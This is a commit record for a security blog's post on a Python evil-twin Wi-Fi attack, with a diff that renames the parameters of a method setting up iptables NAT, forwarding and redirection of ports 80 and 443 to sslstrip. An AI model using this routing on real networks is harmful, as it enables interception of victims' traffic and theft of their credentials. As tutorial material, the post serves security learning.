

Before and after one commit to s0lst1c3/s0lst1c3.github.io, a Jekyll site: the page built from _posts/2015-10-04-python-evil-twin.md, in a window 1280 px wide and 900 px high, scrolled down 5529 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; comment, search, counter and statistics services are not loaded.

Commit message:
new blog post

```diff
--- a/_posts/2015-10-04-python-evil-twin.md
+++ b/_posts/2015-10-04-python-evil-twin.md
@@ -205,11 +205,11 @@ class IPTables(object):
             IPTables._instance = IPTables()
         return IPTables._instance
 
-    def route_to_sslstrip(self, inet_nic, listen_nic):
+    def route_to_sslstrip(self, phys, upstream):
 
-	    bash_command('iptables --table nat --append POSTROUTING --out-interface %s -j MASQUERADE' % inet_nic)
+	    bash_command('iptables --table nat --append POSTROUTING --out-interface %s -j MASQUERADE' % phys)
 
-	    bash_command('iptables --append FORWARD --in-interface %s -j ACCEPT' % listen_nic)
+	    bash_command('iptables --append FORWARD --in-interface %s -j ACCEPT' % upstream)
 
 	    bash_command('iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000')
 	    bash_command('iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 10000')
```
